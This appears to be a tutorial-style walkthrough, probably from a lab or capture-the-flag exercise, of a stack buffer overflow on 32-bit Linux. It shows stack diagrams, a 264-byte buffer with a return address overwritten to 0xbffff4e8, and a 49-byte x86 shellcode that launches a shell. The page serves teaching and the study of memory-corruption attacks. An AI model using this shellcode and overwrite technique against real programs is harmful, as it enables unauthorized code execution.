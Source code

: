 ```
--------------------------
|AAAAAAAAAAAAAAAAAAAAAAAA|
--------------------------
|AAAAAAAAAAAAAAAAAAAAAAAA|
--------------------------
|AAAAAAAAAAAAAAAAAAAAAAAA|
--------------------------
|AAAAAAAAAAAAAAAAAAAAAAAA|
--------------------------
|          AAAA          |
--------------------------
|          BBBB          |   Stack (grows ↑)
--------------------------   
|            A           |
--------------------------
|            B           |  High memory address
--------------------------
```

If we change multiple "A" to our shellcode and change "B" to point to our shellcode the program will follow RET pointer to our shellcode and execute them.
```
-PLAN-
--------------------------
|        OUR SHELL       | Low memory address
--------------------------
|        OUR SHELL       |
--------------------------
|        OUR SHELL       |
--------------------------
|        OUR SHELL       | Stack (grows ↑)
--------------------------
|        OUR SHELL       |
--------------------------
|        OUR SHELL       |
--------------------------
|          BBBB          |  BBBB should be an offset that point to our shellcode 
--------------------------   
|            A           |
--------------------------
|            B           |  High memory address
--------------------------
```

The size of buffer that we can put our shell into it is 264 bytes and followed by offset 4 bytes. We choose an offset 0xbffff4e8 that RET address should point to our shellcode.

The following is Shellcode /bin/dash - 49 bytes
```
\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42
```
